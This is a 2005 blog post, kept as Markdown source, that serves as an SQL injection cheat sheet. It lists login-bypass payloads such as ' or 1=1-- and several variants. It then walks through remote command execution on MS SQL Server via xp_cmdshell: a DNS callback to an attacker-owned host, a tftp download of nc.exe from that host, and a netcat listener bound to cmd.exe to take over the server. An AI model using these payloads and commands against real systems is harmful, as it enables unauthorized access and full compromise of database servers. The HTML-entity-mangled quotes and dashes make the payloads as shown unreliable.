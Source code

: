 ```yaml
---
id: 11
title: SQL Injection Cheat Sheet
date: 2005-11-29T16:57:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=11
permalink: /?p=11
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2005/11/sql-injection-cheat-sheet_29.html
categories:
  - Uncategorized
tags:
  - SQLi
---
```

A small reference when testing and using SQL Injection.

Note: This is for my reference, so if there is not enough detail I apologize.

**Testing For SQL Injection Vulnerabilities:**

We want to see if the input is sanitized or checked, below is something you can insert into the form to check.

**ba&#8217; or 1=1&#8211;**

Example:
  
User: ba&#8217; or 1=1&#8211;
  
Pass: ba&#8217; or 1=1&#8211;

**Query Manipulation:**

SELECT * FROM table WHERE user=&#8217;ba&#8217;

-TO-

SELECT * FROM table WHERE user=&#8217;ba&#8217; or 1=1&#8211;

Other examples (Depending on how the query was written here are other options to try) :
  
**
  
&#8216; or &#8216;1&#8217;=&#8217;1
  
&#8216; or 1=1&#8211;
  
&#8221; or 1=1&#8211;
  
or 1=1&#8211;
  
&#8216; or &#8216;1&#8217;=&#8217;1
  
&#8221; or &#8220;1&#8221;=&#8221;1
  
&#8216;) or (&#8216;1&#8217;=&#8217;1**

Note:( &#8212; ) Is only needed for MS SQL servers. The ( &#8212; ) will tell the server to ignore the rest of the query sometimes can replace with ( # ). This will make sure your signal quotes ( &#8216; ) are in order. Also, if field is hidden you can run the form from your local box w/ the injection in it.

**Remote Execution on MS SQL:**

Now we know the server is vulnerable, while being nice, the above does not always allow us to bypass the login screen. Or we just may want to do something different. Here is an option.

Start a sniffer on a box you own:

**\# tcpdump udp and port 53 and victimhostname**

Now make the victim do a DNS query against your box:

**’; EXEC master..xp_cmdshell ‘nslookup mybox.com’ &#8212;**

You will see the dns query in your tcpdump output. Which means the EXEC worked! Now you can do whatever you like. For demonstration purposes lets just upload NetCat and execute.

**&#8216;; EXEC master..xp_cmdshell ‘tftp –I mybox.com GET nc.exe c:\nc.exe&#8217; &#8212;**

Now execute netcat so it’s listening.

**&#8216;; EXEC master..xp_cmdshell ‘c:\nc.exe –l –p 9999 –e cmd.exe’ –-**

Now if you know what to do the box is all yours!

Note: The ( ; ) will end the previous query and start the next. Also, if the ( &#8216; ) is not working try a ( &#8221; ).

**Conclusion:** This is very basic SQL injection. Since it is just a cheat sheet I did not want this to become to long. Later I will cover other topics such as info gathering from ODBC error messages, Column gathering, querying specific things, blind SQL injection.

**Other Good Docs:**
  
<http://www.securiteam.com/securityreviews/5DP0N1P76E.html>
  
<http://www.spidynamics.com/whitepapers/WhitepaperSQLInjection.pdf>